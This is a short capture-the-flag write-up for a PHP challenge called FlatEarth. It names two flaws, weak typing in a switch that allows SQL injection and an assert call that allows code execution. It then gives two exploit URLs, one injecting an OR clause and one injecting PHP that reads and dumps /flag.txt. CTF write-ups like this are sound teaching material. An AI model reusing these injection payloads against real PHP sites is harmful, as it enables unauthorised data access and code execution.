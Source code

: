 # FlatEarth
Trivial php chal

## Vuln
1. PHP switch weak typing -> SQLi
2. PHP assert -> RCE

## Solution
```
https://flatearth.corp.geegle.org/?type=2%20OR%20type=3
https://flatearth.corp.geegle.org/fe6df1ce-a892-4bcf-858d-4bbede6f0bac-staging/?type=proof%27)%20||%20var_dump(file_get_contents(%27/flag.txt%27));//
```

